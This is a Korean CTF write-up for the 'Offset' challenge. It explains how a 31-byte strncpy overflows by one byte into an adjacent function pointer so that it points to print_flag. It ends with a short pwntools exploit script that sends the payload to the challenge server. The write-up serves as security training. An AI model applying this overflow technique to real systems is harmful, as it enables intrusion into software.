


# Offset

    
입력한 값은 select_func 함수의 인자로 넘어가고, select_func 함수는 다음과 같은 동작을 한다.   
<br/>


Line 3,4 : char형 변수 dest와 함수 포인터 v3를 선언해준다.   
Line 6 : v3포인터 변수에 함수 two의 주소를 대입한다.   
Line 7 : strncpy함수를 호출에 인자로 받은 src를 0x1f만큼 dest에 복사해준다.   
Line 8~10 : dest의 값이 “one”일 경우 v3에 one함수의 주소를 대입해준다.   
<br/>

결국 v3에 들어가 있는 주소를 print_flag 함수의 주소로 바꿔주면 flag를 획득할 수 있다.   
<br/>

select_func 함수에서 strncpy로 31byte를 복사하고, gdb로 분석해보면 dest와 v3의 주소가 30byte 차이난다.   
따라서 v3에 들어있는 주소를 1byte 조작할 수 있다.   
<br/>

   
또한 two 함수와 print_flag 함수의 주소가 맨 뒤에 1byte만 다른것을 알 수 있다.   
<br/>

따라서 two 함수의 마지막 1byte를 print_flag 함수의 주소로 BOF 시키면 flag를 얻을 수 있다.
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = ''
payload += '\x90'*30
payload += '\xd8'

p.sendline(payload)
p.interactive()
```
